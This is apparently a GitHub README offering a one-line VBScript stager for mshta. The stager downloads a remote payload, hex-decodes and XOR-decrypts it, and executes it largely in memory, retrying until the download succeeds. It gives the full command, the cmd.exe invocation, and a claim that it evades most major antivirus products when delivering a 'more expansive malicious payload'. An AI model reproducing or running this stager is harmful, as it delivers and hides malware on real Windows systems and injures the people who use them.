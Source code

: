 # MSHTA VBScript Download & Execute
Downloads, decode, decrypt and executes a VBScript using cmd and mshta
```
'=========================================='
'                 Features                 '  
'++++++++++++++++++++++++++++++++++++++++++'
' [*] Autoreconnect                        '
' [*] Hexadecimal encoded payload (UTF8)   '
' [*] Encrypted payload                    '
' [*] In (almost) memory execution         '
'++++++++++++++++++++++++++++++++++++++++++'
'<---------------------------------------->'
'<========================================>'
'<---------------------------------------->'
'mshta.exe one line command                '
'mshta.exe maximum command length   : 487  '
'Script length with double quotes   : 330  '
'<---------------------------------------->'
'=========================================='
```
## One line command
```
"On Error Resume Next:Set a=CreateObject(""MSXML2.ServerXMLHTTP.6.0""):a.setOption 2,13056:while(Len(b)=0):a.open""GET"",""LINK_TO_YOUR_PAYLOAD"",False:a.send:b=a.responseText:wend:k=""PAYLOAD_PASSWORD"":for i=0to Len(b)-1Step 2:c=c&Chr(Asc(Chr(""&H""&Mid(b,i+1,2)))xor Asc(Mid(k,((i/2)mod Len(k))+1,1))):Next:ExecuteGlobal c:"
```

## Example
```
(cmd.exe): mshta vbscript:execute("ONE LINE COMMAND")(window.close)
```
![Alt Text](https://i.imgur.com/9wuCs1v.gif)

## FUD
Tested on **Windows7/10** x64 with: *Avira*, *AVG*, *Avast*, *ESET32*, *Kaspersky*, *Panda*, *BitDefender* and *Windows Defender* (Win7/10) to launch a more *expansive malicous payload*, the only one who blocked was **BitDefender**.

## Use your creativity ;)

